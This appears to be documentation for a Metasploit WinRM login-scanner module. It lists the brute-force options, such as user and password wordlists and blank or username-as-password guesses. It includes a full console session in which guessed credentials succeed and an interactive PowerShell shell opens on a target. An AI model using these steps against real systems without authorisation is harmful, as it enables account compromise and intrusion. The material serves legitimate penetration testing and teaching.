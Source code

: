 ## Vulnerable Application

WinRM is the Microsoft implementation of the WS-Management protocol. Among other features, it provides
shell access to other systems. This module performs a brute force of username:password combinations.
Upon success, it creates an interactive command shell.

## Verification Steps

1. Do: ```use auxiliary/scanner/winrm/winrm_login```
1. Do: ```set RHOSTS [IP]```
1. Do: ```set USERNAME [USERNAME]``` or ```set USER_FILE [FILE]```
1. Do: ```set PASSWORD [PASSWORD]``` or ```set PASS_FILE [FILE]```
1. Do: ```run```


## Options

### BLANK_PASSWORD

Boolean value on if an additional login attempt should be attempted with an empty password for every user.

### PASSWORD

Password to try for each user.

### PASS_FILE

A file containing a password on every line. Kali linux example: `/usr/share/wordlists/metasploit/password.lst`

### STOP_ON_SUCCESS

If a valid login is found on a host, immediately stop attempting additional logins on that host.

### USERNAME

Username to try for each password.

### USERPASS_FILE

A file containing a username and password, separated by a space, on every line. An example line would be `username
password`.

### USER_AS_PASS

Boolean value on if an additional login attempt should be attempted with the password as the username.

### USER_FILE

A file containing a username on every line.

### VERBOSE

Show a failed login attempt. This can get rather verbose when large `USER_FILE`s or `PASS_FILE`s are used. A failed
attempt will look similar to the following:

```
[-] 192.168.1.20: - LOGIN FAILED: WORKSTATION\test:test (Incorrect: )
```

## Option Combinations

It is important to note that usernames and passwords can be entered in multiple combinations. For instance, a password
could be set in `PASSWORD`, be part of either `PASS_FILE` or `USERPASS_FILE`, be guessed via `USER_AS_PASS` or
`BLANK_PASSWORDS`. This module makes a combination of all of the above when attempting logins. So if a password is set
in `PASSWORD`, and a `PASS_FILE` is listed, passwords will be generated from BOTH of these.

## Scenarios

```
msf > use auxiliary/scanner/winrm/winrm_login
msf auxiliary(scanner/winrm/winrm_login) > set user_file ~/users
user_file => ~/users
msf auxiliary(scanner/winrm/winrm_login) > set pass_file ~/passes
pass_file => ~/passes
msf auxiliary(scanner/winrm/winrm_login) > set rhosts 192.168.1.205
rhosts => 192.168.1.205
msf auxiliary(scanner/winrm/winrm_login) > set verbose true
verbose => true
msf auxiliary(scanner/winrm/winrm_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:hunter2 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:pass12345 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:Winte.1.0 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\smash:hunter2 (Incorrect: )
[+] 192.168.1.205:5985 - Login Successful: WORKSTATION\smash:pass12345
[*] Command shell session 1 opened (WinRM) at.1.20509-03 13:27:26 +1000
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:hunter2 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:pass12345 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:Winte.1.0 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/winrm/winrm_login) > sessions 

Active sessions
===============

  Id  Name  Type           Information                 Connection
  --  ----  ----           -----------                 ----------
  1         shell windows  WinRM : (WIN10DEV\smash)  WinRM (192.168.1.205)

msf auxiliary(scanner/winrm/winrm_login) > sessions 1
[*] Starting interaction with 1...

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\smash>
```
